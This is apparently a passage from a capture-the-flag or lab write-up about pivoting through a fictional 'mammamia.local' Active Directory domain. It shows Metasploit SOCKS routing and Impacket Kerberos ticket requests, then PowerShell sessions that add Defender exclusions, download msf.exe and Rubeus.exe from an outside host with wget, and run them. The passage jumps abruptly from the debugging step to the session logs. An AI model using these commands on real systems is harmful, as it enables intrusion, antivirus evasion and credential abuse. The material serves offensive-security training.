 ```bash
msf6 exploit(multi/handler) > route add 10.0.0.0 255.0.0.0 1 # session ID 1
msf6 exploit(multi/handler) > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set VERSION 4a
msf6 auxiliary(server/socks_proxy) > run
```

We can now use `getST.py` to try to request a service ticket using the TGT:

```bash
user@zero:~/MammaMia$ proxychains getST.py 'factories.mammamia.local/silvia.galli' -k -no-pass -spn cifs/mgmtdc.factories.mammamia.local -dc-ip 10.50.0.10 -debug
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.11.0 - Copyright 2023 Fortra

[+] Impacket Library Installation Path: /home/user/.local/lib/python3.10/site-packages/impacket
[+] Using Kerberos Cache: ticket.ccache
[+] Returning cached credential for KRBTGT/FACTORIES.MAMMAMIA.LOCAL@FACTORIES.MAMMAMIA.LOCAL
[+] Using TGT from cache
Traceback (most recent call last):
  File "/home/user/.local/bin/getST.py", line 737, in <module>
    executer.run()
  File "/home/user/.local/bin/getST.py", line 623, in run
    domain, _, TGT, _ = CCache.parseFile(self.__domain)
  File "/home/user/.local/lib/python3.10/site-packages/impacket/krb5/ccache.py", line 630, in parseFile
    TGT = creds.toTGT()
  File "/home/user/.local/lib/python3.10/site-packages/impacket/krb5/ccache.py", line 320, in toTGT
    tgt['sessionKey'] = crypto.Key(cipher.enctype, self['key']['keyvalue'])
  File "/home/user/.local/lib/python3.10/site-packages/impacket/krb5/crypto.py", line 657, in __init__
    raise ValueError('Wrong key length')
ValueError: Wrong key length
Wrong key length
```

Impacket's module is also failing to use the ticket with the error `Wrong key length`. We can perform more debugging by printing the actual and expected key lengths in the `crypto.py` file:

```python
class Key(object):
    def __init__(self, enctype, contents):
        e = _get_enctype_profile(enctype)
        print("Actual key length: ", len(contents))
        print("Expected key length: ", e.keysize)
        if len(contents) != e.keysize:
            raise ValueError('Wrong key length')
        self.enctype = enctype
        self.contents = contents
```

If we run it again, we can see that the expected key length is 32 bytes, but the actual key length is 76 bytes:


[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> whoami
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> hostname
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/Rubeus.exe -o rubeus.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\rubeus.exe createnetonly /program:"C:\Windows\Temp\attacker\msf.exe"
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> whoami                                         
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> cd C:\Windows\temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\msf.exe
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> whoami                                         
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> hostname              
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> cd C:\Users\amministratore\desktop
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> ls
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> cat flag.txt                      